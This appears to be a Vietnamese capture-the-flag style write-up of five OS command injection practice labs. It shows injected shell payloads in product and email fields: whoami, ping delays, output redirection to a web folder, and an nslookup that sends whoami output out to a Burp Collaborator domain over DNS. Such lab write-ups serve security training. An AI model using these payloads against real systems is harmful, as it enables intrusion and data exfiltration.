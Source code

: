 # OS command injection, simple case
## Target goal
Bài lab có lỗ hổng OS command injection ở phần kiểm tra số lượng sản phẩm

Ứng dụng thực thi lệnh shell có chứa sản phẩm do người dùng cung cấp và lưu trữ ID và trả về đầu ra từ lệnh trong phản hồi của nó.

Để giải bài lab, chạy lệnh `whoami` để biết tên người dùng hiện tại.

## Analysis and exploit
Trang web sử dụng script được viết trong file `stockCheck.js` để thực hiện kiểm tra số hàng còn trong kho và trả về output cho người dùng. Cụ thể, command có dạng:
```
stockCheck.js <productId> <storeId>
```
![image](https://hackmd.io/_uploads/rypatmbpkx.png)

Thử với sản phẩm bất kì, ở đây là sản phẩm đầu tiên có `productId=1` và `storeId=1`. Lúc này command sẽ là:
```
stockCheck.js 1 1
```

Như vậy ta hoàn toàn có thể chèn OS command vào `productId` hoặc `storeId` để thực hiện lệnh mong muốn. Thử dùng `echo` ở `storeId` với payload `1; echo 'van'` 

![image](https://hackmd.io/_uploads/S10Mc7bTyl.png)

Lúc này có thể thấy dòng chữ `van` đã được trả về. Bây giờ chỉ việc thay lệnh `echo 'van'` thành `whoami` 

![image](https://hackmd.io/_uploads/rJK2c7W6Jg.png)

# Blind OS command injection with time delays
## Target goal
Bài lab có lỗ hổng OS command injection ở phần submit feedback

Ứng dụng thực thi lệnh shell có chứa sản phẩm do người dùng cung cấp và lưu trữ ID và trả về đầu ra từ lệnh trong phản hồi của nó.

Để giải bài lab, khai thác lỗ hổng blind OS CMDI làm server delay 10 giây

## Analysis and exploit
![image](https://hackmd.io/_uploads/H1Kw3QW6ye.png)

server sẽ thực thi lệnh sau khi nhận được feedback từ người dùng
```
mail -s "oooooooooooooo" -aFrom:vandz@gmail.com feedback@vulnerable-website.com
```

Có thể thấy email của người dùng là vị trí ta có thể chèn lệnh OS bất kì. Thực hiện thêm payload vào sau email như sau: `vandz@gmail.com || ping -c 10 127.0.0.1 ||`

![image](https://hackmd.io/_uploads/Bk4YTXZayx.png)


# Blind OS command injection with output redirection
## Target goal
Bài lab có lỗ hổng OS command injection ở phần submit feedback

Ứng dụng thực thi lệnh shell chứa các chi tiết do người dùng cung cấp. Đầu ra từ lệnh không được trả về trong phản hồi. Tuy nhiên, bạn có thể sử dụng chuyển hướng đầu ra để nắm bắt đầu ra từ lệnh. Có một thư mục có thể ghi tại:

```
/var/www/images/
```

Bạn có thể chuyển hướng đầu ra từ lệnh được inject sang một tệp trong thư mục này, sau đó sử dụng URL tải hình ảnh để truy xuất nội dung của tệp.

Để giải bài lab, chạy lệnh `whoami` để biết tên người dùng hiện tại.

## Analysis and exploit
Lần này ta sẽ ghi output của command vào 1 file thuộc folder mà user hiện tại có quyền ghi, đó là `/var/www/images/`. Thư mục này chính là nơi chứa các ảnh mà ứng dụng load cho posts thông qua param `filename`.

Ta sẽ chèn command vào trường `email` như hình dưới. Cụ thể output của lệnh `whoami` sẽ được ghi vào file `/var/www/images/whoami`.
```
|| whoami > /var/www/images/output.txt ||
```

![image](https://hackmd.io/_uploads/H1PRAmbTke.png)

Tiến hành đọc file tại `/var/www/images/output.txt`

![image](https://hackmd.io/_uploads/HyLMk4WTJx.png)

# Blind OS command injection with out-of-band interaction
## Target goal
Bài lab có lỗ hổng OS command injection ở phần submit feedback

Ứng dụng thực thi lệnh shell chứa các chi tiết do người dùng cung cấp. Đầu ra từ lệnh không được trả về trong phản hồi. Tuy nhiên, bạn có thể trigger ra bên ngoài domain khác

Để giải bài lab, khai thác blind OS CMDI to DNS lookup to Burp Collaborator

## Analysis and exploit
Lần này ta sẽ sử dụng lệnh `nslookup` để query DNS đến domain ngoài. Sử dụng Burp Collaborator để host domain. Payload để chèn giống như hình dưới

![image](https://hackmd.io/_uploads/SJVW-EZTyx.png)

Kiểm tra Burp Collaborator ta thấy đã có các DNS query xuất hiện.

![image](https://hackmd.io/_uploads/Hy_GWNWaJg.png)

# Blind OS command injection with out-of-band data exfiltration
## Target goal
Bài lab có lỗ hổng OS command injection ở phần submit feedback

Ứng dụng thực thi lệnh shell chứa các chi tiết do người dùng cung cấp. Đầu ra từ lệnh không được trả về trong phản hồi. Tuy nhiên, bạn có thể trigger ra bên ngoài domain khác

Để giải bài lab, khai thác blind OS CMDI to DNS lookup to Burp Collaborator đồng thời chạy với lệnh `whoami` để xem người dùng hiện tại

## Analysis and exploit
Lần này yêu cầu phức tạp hơn đó là output command thông qua các DNS query. Khi sử dụng lệnh sau, ta sẽ lấy được output của lệnh `whoami` qua DNS query
```
nslookup `whoami`.<Collaborator domain>`
```

Chèn payload như hình vào trường `email`

![image](https://hackmd.io/_uploads/ByozM4Wpke.png)

Kiểm tra Burp Collaborator ta thấy đã có các DNS query xuất hiện cùng với đầu ra của lệnh `whoami`.

![image](https://hackmd.io/_uploads/SJ7ef4Zake.png)
